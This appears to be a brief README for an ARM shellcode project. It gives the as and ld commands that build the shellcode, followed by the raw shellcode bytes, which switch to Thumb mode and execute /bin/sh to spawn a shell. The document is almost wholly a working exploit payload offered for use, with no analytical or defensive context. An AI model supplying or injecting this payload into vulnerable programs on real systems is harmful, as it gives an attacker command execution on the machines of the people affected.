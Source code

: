 # ARM Shellcode

To produce binary, assemble and link shellcode.s file:
```
as shellcode.s -o shellcode.o
ld -N shellcode.o -o shellcode
```

Raw shellcode:
`\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x1a\x92\x1a\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58`
